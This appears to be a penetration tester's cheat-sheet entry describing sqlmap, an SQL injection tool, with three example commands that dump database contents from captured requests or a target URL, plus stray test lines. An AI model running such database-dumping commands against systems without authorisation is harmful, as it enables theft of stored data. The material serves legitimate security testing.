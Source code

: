 # sqlmap
*sqlmap* is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections. [More](https://github.com/sqlmapproject/sqlmap)
```
sqlmap -r request.txt --dbms=mysql --dump sqlmap -r request.txt -p username

sqlmap -u http://domain.name --form

sqlmap --dbms=SQLite -r Burp --tamper=cspace2comment --level=3 -- dump-all
```
> testing
> testin1
